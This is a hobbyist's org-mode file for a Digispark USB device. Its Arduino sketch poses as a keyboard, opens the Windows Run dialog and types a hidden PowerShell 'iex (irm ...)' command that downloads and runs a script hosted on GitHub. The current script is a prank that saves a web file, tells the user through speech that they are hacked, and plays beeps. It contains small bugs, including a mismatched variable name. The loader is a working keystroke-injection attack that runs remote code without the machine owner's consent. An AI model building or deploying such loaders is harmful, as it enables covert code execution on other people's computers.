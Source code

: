 #+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Source URL
$ursl = "https://web-archive.southampton.ac.uk/cogprints.org/1927/1/NEURON_SOMA_SIZE_IN_THE.TEXT"
# Destation file
$dest = "c:\temp\einstein.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest


# Wait for 120 seconds before running next part
Start-Sleep -Seconds 1
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right? Oh yes indeed you are hacked and powned. First let me do some work and I will talk to you in a minute. Meanwhile you should wave to the camera.")
Start-Sleep -Seconds 5
$s.Speak("hum nom nom. Don't worry just warming up my vocal chords. I will give a speech to you soon. Downloading some files.")
Start-Sleep -Seconds 5
$s.Speak($dest)

#+end_src

#+RESULTS:



$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")

https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf


** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
